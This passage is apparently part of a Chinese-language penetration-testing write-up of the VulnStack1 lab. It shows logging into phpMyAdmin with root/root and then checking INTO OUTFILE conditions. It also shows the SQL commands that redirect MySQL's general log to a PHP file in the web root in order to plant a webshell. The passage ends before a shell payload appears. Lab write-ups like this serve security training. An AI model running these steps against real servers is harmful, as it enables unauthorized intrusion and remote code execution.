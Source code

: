 访问 /phpmyadmin，尝试弱口令，发现 root/root 可以登录

接下来尝试利用 sql 注入写马

##### 尝试 into outfile 写马

利用条件：
1. 知道网站的绝对路径
2. secure_file_priv 不能为 null（当为 “null” 时，不允许导入导出文件；当为 “空” 时，允许导入导出任意文件；当为 “D:\” 时，允许在 D 盘下导入导出）
3. 具有写入文件的权限

利用模糊匹配进行查询
```sql
SHOW GLOBAL VARIABLES LIKE "%secure_file_priv%"
```

结果如下

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_4.png)

secure_file_priv 的值为 NULL，所以不能用 into outfile 写马

如果修改 secure_file_priv 的值，也可以写马：
```shell
windows 下修改配置文件：mysql.ini
linux 修改配置文件：my.cnf
```

##### 尝试利用日志写马

这里使用普通日志写马，也可以用慢日志写马（如果查询时间超过了设置的时间值，默认为10秒，这个查询语句将被记录到慢查询日志中）

数据库都有一个存放日志的文件，但是这个文件会记录数据库的操作语句，也可能不会记录数据库的操作语句，这取决于两个全局变量：

```general_log```：日志的保存状态，ON代表开启 OFF代表关闭
```general_log_file```：日志的保存路径

使用模糊匹配查询全局变量
```sql
show global variables like "%general%"  
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_5.png)

可以看到 general_log 是 OFF 的状态

打开日志记录
```sql
SET GLOBAL general_log='ON'; 
```

查看SQL安装的绝对路径
```sql
select @@basedir; 
```

得到是 C:/phpStudy/MySQL/

设置写马的路径
```sql
set global general_log_file='C:\\phpStudy\\WWW\\shell.php';
```
